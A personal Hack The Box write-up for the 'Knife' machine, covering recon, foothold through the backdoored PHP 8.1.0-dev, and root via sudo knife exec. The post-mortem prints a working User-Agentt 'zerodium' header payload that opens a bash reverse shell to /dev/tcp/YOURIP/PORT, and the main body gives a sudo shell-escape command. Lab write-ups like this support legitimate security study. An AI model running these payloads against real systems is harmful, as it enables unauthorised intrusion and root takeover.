 ```yaml
---
title: "Knife HTB"
date: 2021-07-28T17:30:30
categories:
  - writeup
tags:
  - Linux
  - HacktheBox
  - Backdoor
  - GTFOBin
  - PHP
classes: wide
---
```

Knife was at the time of this writeup's completion an active box, meaning it is the first I managed to do without any write up help. It required a LOT of googling, but was overall not too hard. The basic flow of scan, google, foothold, `sudo -l` came through. I just needed to not make some silly mistakes and the whole process could have been less painful. There is a Post-mortem at the bottom containing of my thoughts when revisiting this box now it has retired. The main body of the writeup contains my thoughts at the time of completing the box.

<h2>Enumeration</h2>
**Nmap scan results:**

```
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<h4>What is the scan telling us?</h4>

- Port 22 is open and running the usual ssh, specifically OpenSSH 8.2p1. Which seems to have some man in the middle(MitM) attack routes, but nothing suitable for this box. 
- Port 80 is showing Apache 2.4.41 which seems to have some vulns that can cause it to crash, but not much else. 
- Box is running on Ubuntu Linux which we knew already.

**Gobuster:**

```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/index.php (Status: 200)
/icons (Status: 200)
/icons/small (Status: 200)
```

**Nikto:**

```
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ 7863 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-07-28 13:04:33 (GMT-4) (210 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Navigating to the website we see a fancy looking Emergency medical site, but no obvious avenues of attack.

<h2>Foothold</h2>

After searching for hours about possible OpenSSH 8.2.p1 Ubuntu, 4ubuntu0.2, and Apache 2.4.41 CVE's. A closer look at Nikto holds the answer.
Nikto reveals that the Apache header shows that the PHP version is 8.1.0-dev. Googling this reveals an exploit on exploitdb: [EDB-ID:49933](https://www.exploit-db.com/exploits/49933). Which allows RCE through a backdoor added through a compromised git.php.net server. 

We download the python script from the exploitdb page and run it with python3. This gives us a shell as "james" and we find the user flag in their home directory.


<h2>Privilege Escalation</h2>

After obtaining the user flag, running `sudo -l`  shows that james can run:

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Googling this binary shows that "knife" is a part of a automation platform called "chef". Reading the [website](https://docs.chef.io/workstation/knife/) we see:

> *"The Chef Workstation includes other command line tools for interacting with Chef Infra. These include knife for interacting with the Chef Infra Server, and chef for interacting with your local chef code repository (chef-repo)."*

Reading the website we see a list of subcommands, including knife exec. This shows that knife can execute ruby commands. Further details can be seen from [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) which shows that `knife exec -E 'exec "/bin/sh"'` will run a ruby script to execute /bin/sh and obtain us root shell.
Attempting to run `sudo knife exec -E 'exec "bin/sh"'` leads to an error. 

After a large amount of trial and error it turns out the command is returning error because the shell from the previous script is not a TTY shell. Attempts to upgrade this shell lead to a non-responsive shell, a proper php reverse shell usually has no problems being upgraded. Maybe there is a method to upgrade the other one I'm not sure about, maybe by backgrounding it? 
More googling shows that a [script for reverse shell](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py) has already been written by the same exploitdb author. 

We download the script, enter the parameters it requests in the format we request, open an nc listener, and run the script. We catch a tty shell! Now with our better shell, running the `sudo knife exec -E 'exec "/bin/sh"'` command gives us a root shell.
Navigating to the root folder we find root.txt and inside it... the root flag!
 
<h4>For next time:</h4>

- More careful attention to enumeration would have saved a lot of time. Searchsploit everything!
- Make sure that you have full TeleTYpewriter(tty) shell. I couldn't execute the knife privesc command because I hadn't upgraded the shell. 

---

<h2> Post-mortem</h2>
Now that the box has retired I am revisiting this writeup to add some study notes.

Actually reading the exploit I used at the time I find a lot of useful information. 
From the words of the [blog](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) written by flast101:

>*"taking a look at the added line 370 where zend_eval_string function is called, the code actually plants a backdoor for obtaining easy Remote Code Execution (RCE) on a website running this hijacked version of PHP. This line executes PHP code from within the useragent HTTP header, if the string starts with ‘zerodium’.
Zerodium is a Washington-based security firm that specializes in buying and selling zero-day vulnerabilities for a variety of operating systems and popular desktop and Web applications, including for PHP itself."*

Reading this it seems I could have gotten RCE manually by adding a system reverse shell one liner to the User-Agent after "zerodium" in Burp Suite. This would have avoided the issues I had with trying to run the GTFOBins priv esc of `knife exec -E`. For the script to execute User-Agent must have two t's and the script must be after zerodium.
Ippsec shows this one line would look like: 

```
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'")
```

Overall not too hard of a box, and was such a great feeling completing my first active box. 